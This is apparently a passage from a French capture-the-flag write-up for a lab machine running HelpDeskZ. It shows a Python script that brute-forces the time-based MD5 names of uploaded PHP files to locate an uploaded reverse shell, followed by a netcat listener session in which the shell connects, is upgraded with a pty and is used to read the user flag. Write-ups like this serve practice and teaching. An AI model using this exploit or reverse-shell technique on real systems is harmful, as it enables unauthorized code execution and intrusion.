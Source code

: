 ```bash
    print "Usage: {} http://helpdeskz.com/support/uploads/tickets/ Reverse-shell.php".format(sys.argv[0])
    sys.exit(1)


helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

##Getting the Time from the server
response = requests.head('http://10.10.10.121/support/')
serverTime = response.headers['Date']
##setting the time in Epoch
FormatTime = '%a, %d %b %Y %H:%M:%S %Z'
currentTime = int(calendar.timegm(time.strptime(serverTime, FormatTime)))


for x in range(0,300):
    plaintext = fileName + str(currentTime -x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl + md5hash + '.php'
    response = requests.head(url)
    if response.status_code == 200:
        print("found!")
        print(url)
        sys.exit(0)

print("Sorry, I did not find anything")
```
On voit ici l'obtention d'un reverse shell :
```bash
$ nc -lnvp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.121.
Ncat: Connection from 10.10.10.121:34876.
SOCKET: Shell has connected! PID: 1312
whoami
help
python3 -c 'import pty;pty.spawn("/bin/bash")'
help@help:/var/www/html/support/uploads/tickets$ export TERM=xterm
export TERM=xterm
help@help:/var/www/html/support/uploads/tickets$ ^Z
[1]  + 3405 suspended  nc -lnvp 9001
[Aug 26, 2025 - 00:39:46 (CEST)] exegol-pentest /workspace # stty raw -echo;fg     
[1]  + 3405 continued  nc -lnvp 9001

help@help:/var/www/html/support/uploads/tickets$ 
help@help:/var/www/html/support/uploads/tickets$ ls
072358eef300beb18834f16ffb121aee.php  5d13aeec839047b1647d58538fd788b8.png
1041ae9bd805fcd792d6a1e775ca8fab.txt  c89564cd603a96bafcd9e53210d6042b.txt
11768880feca2125903635561dd4d047.php  fd517142e88d1dfb1c8616b7f8824891.txt
1c9c8783677b6498d5e2453241c6c3b9.php  index.php
316c27c726d57e961f236992c9788715.php
help@help:/var/www/html/support/uploads/tickets$ cd /home/
help@help:/home$ ls
help
help@help:/home$ cd help/
help@help:/home/help$ ls
help  npm-debug.log  user.txt
------------->
help@help:/home/help$ cat user.txt 
```